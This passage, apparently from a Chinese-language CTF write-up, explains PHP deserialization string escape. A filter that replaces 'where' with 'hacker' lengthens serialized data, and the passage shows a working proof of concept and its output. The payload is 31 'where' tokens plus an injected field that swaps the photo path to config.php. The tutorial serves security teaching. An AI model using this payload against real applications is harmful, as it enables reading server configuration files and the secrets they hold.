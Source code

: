 ```
a:4:{s:5:"phone";s:11:"13393731122";s:5:"email";s:9:"123@qq.cn";s:8:"nickname";a:1:{i:0;s:31:"";}s:5:"photo";s:10:"config.php";}s:5:"photo";s:39:"upload/1791e49ef8cf4fc717bdf26e9fad4fb7";}Array
(
    [phone] => 13393731122
    [email] => 123@qq.cn
    [nickname] => Array
        (
            [0] => ";}s:5:"photo";s:10:"config.php
        )

    [photo] => upload/1791e49ef8cf4fc717bdf26e9fad4fb7
)
```

这样并不能达到反序列化逃逸。由于上面，序列化后的字符串经过了 filter 进行了替换，而且我们可以发现 ``where`` 被替换成了 ``hacker`` ，字符长度+1，那么只需要在构造的字符串前加上 31 个 ``where`` ，它会被替换成 31 个 ``hacker``，字符串长度+31，那么 ``";}s:5:"photo";s:10:"config.php`` 会被单独的解析为数组元素而不是字符串，且其后的字符串也不会被反序列化，实现了逃逸：

```php
<?php
$profile['phone'] = '13393731122';
$profile['email'] = '123@qq.cn';
$profile['nickname'] = ['wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php'];
$profile['photo'] = 'upload/' . md5('gtfly');;

function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';   # /'|\\/
    $string = preg_replace($escape, '_', $string);  # 将传入的变量中的单引号或反斜线替换为下划线

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';   #  /select|insert|update|delete|where/
    return preg_replace($safe, 'hacker', $string);  # 将上述sql关键字替换为hacker
}

echo serialize($profile);
echo "\n";
echo filter(serialize($profile));
echo "\n";
print_r(unserialize(filter(serialize($profile))));
```

```
a:4:{s:5:"phone";s:11:"13393731122";s:5:"email";s:9:"123@qq.cn";s:8:"nickname";a:1:{i:0;s:186:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}s:5:"photo";s:39:"upload/1791e49ef8cf4fc717bdf26e9fad4fb7";}
a:4:{s:5:"phone";s:11:"13393731122";s:5:"email";s:9:"123@qq.cn";s:8:"nickname";a:1:{i:0;s:186:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"photo";s:10:"config.php";}s:5:"photo";s:39:"upload/1791e49ef8cf4fc717bdf26e9fad4fb7";}
Array
(
    [phone] => 13393731122
    [email] => 123@qq.cn
    [nickname] => Array
        (
            [0] => hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
        )

    [photo] => config.php
```